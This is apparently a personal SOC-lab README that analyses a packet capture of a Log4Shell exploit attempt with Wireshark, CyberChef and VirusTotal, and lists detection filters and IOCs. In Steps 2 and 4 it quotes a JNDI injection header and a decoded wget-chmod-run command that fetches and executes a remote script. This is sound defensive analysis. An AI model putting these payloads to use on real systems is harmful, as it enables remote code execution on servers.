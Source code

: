 #  Remote Code Execution Attempt via Log4j (JNDI Injection)

## Overview

In this lab, I documented the investigation of a malicious packet capture (PCAP) containing a real-world Log4j (Log4Shell) exploit attempt. The objective was to detect signs of remote code execution (RCE), identify Indicators of Compromise (IOCs), and validate attacker infrastructure using open-source tools. This project demonstrates skills in threat hunting, packet analysis, payload decoding, and threat intelligence.

##  Objective

- Analyze a suspicious `.pcapng` file  
- Detect Log4j exploit attempts via JNDI injection  
- Decode any hidden payloads  
- Confirm if any callback/C2 behavior occurred  
- Extract IOCs and validate threat infrastructure
  
---

##  Tools Used


- **Wireshark** (v4.4.6)  
- **CyberChef** (Base64 decoding)  
- **VirusTotal** (IP reputation lookup)

----

## Detection Techniques Used


- Wireshark display filters
- TCP stream inspection
- CyberChef decoding
- IP reputation check via VirusTotal

---

### Step 1 : Initial Packet Capture Review

- Loaded the `.pcapng` file into **Wireshark**
- Since this was an offline PCAP, interface selection was irrelevant





This shows suspicious traffic where JNDI strings are present in HTTP request payloads—an indicator of potential Log4j exploitation attempts.

![Initial inspection: frame contains "jndi"](Screnshotslog4j/framecontainsjndi.png)

---

### Step 2: Applied Filter to Detect Log4j Exploits

**Filter Used:** ip contains "jndi"


**Goal:** Detect `${jndi:...}` pattern commonly used in Log4Shell attacks

**Findings:**

- Multiple HTTP POST requests to `198.71.247.91` (SERVER IP)
- Suspicious `User-Agent` headers containing: ${jndi:ldap://45.137.21.9:1389/Basic/Command/Base64/...}


---

### Step 3: Isolate Callback Behavior

This screenshot captures both the use of the composite filter and a specific request containing a Base64-encoded command in the `User-Agent` header.

![Callback filter applied in Wireshark](Screnshotslog4j/checkC2.png)


**Goal:** Identify callback attempts to attacker-controlled servers (C2).

---

### Step 4: Decode the Payload with CyberChef

**Base64 Payload Extracted:**

d2dldCBodHRwOi8vNjIuMjEwLjEzMC4yNTAvbGguc2g7Y2htb2QgK3ggbGguc2g7Li9saC5zaA==



**Decoded with CyberChef:**  

wget http://62.210.130.250/lh.sh ; chmod +x lh.sh; ./lh.sh

 
This screenshot shows the decoding process in **CyberChef**, where the Base64-encoded string is transformed into a shell command. The output reveals the intent to download and execute a remote shell script, indicating a clear attempt at remote code execution.

![CyberChef decoding Base64 payload](Screnshotslog4j/cyberchef_decode.png)


**Interpretation:**

- Downloads a shell script from `62.210.130.250`
- Makes it executable and runs it
- Confirms a remote code execution attempt

---

### Step 5: Validate Malware Host with VirusTotal
 
This screenshot shows that multiple security vendors (e.g., BitDefender, ESET, Dr.Web) flagged this IP as **Malicious**, **Malware**, or **Phishing**.

![VirusTotal analysis of 62.210.130.250](Screnshotslog4j/virustotal_62.210.130.250.png)

**Queried IP:** `62.210.130.250`  
**Result:** Flagged as malicious by 12+ security vendors

---

## 🔎 Additional Observations

- Attacker LDAP server `45.137.21.9:1389` delivered the malicious redirect
- Script `lh.sh` likely contains second-stage malware or C2 payload

---

##  Filters Used

- `ip contains "jndi"`  
- `tcp.flags == 0x002 and ip.src == 198.71.247.91`  
- `frame contains "ldap"`  
- `http contains "Base64"`  
- `http.request.method == "POST"`

---

## 🚨 Indicators of Compromise (IOCs)

| Type               | Value                          |
|--------------------|--------------------------------|
| Attacker LDAP IP   | `45.137.21.9`                  |
| Malware Host IP    | `62.210.130.250`               |
| Targeted Server IP | `198.71.247.91`                |
| Payload Pattern    | `${jndi:ldap://...}`           |
| Payload Script     | `lh.sh` (via `wget`)           |

---

## 💡 Summary of Insights

- Real-world **Log4j RCE** attempt detected
- Payload was **Base64 encoded** to obscure intent
- Malicious infrastructure still active at time of analysis
- No full C2 stream detected, but **SYN packets suggest callbacks**
  
---

## 📚 Lessons Learned

- Log4j exploits can hide in HTTP headers like `User-Agent`
- Always decode suspicious strings to understand payload behavior
- Outbound SYNs may indicate attempted **C2 communication**
- Cross-referencing IOCs with services like **VirusTotal** increases confidence


---

## ✅ Conclusion

This concludes **Case Study #1** in the Network Threat Hunting Lab.  
It demonstrates a full-stack analysis pipeline suitable for my:

- SOC analyst internship applications  
- Blue team/IR skill demonstration  
- Personal cybersecurity lab documentation

---

* This personal lab project demonstrates my understanding of network protocols, threat patterns, and detection techniques used in real SOC environments.

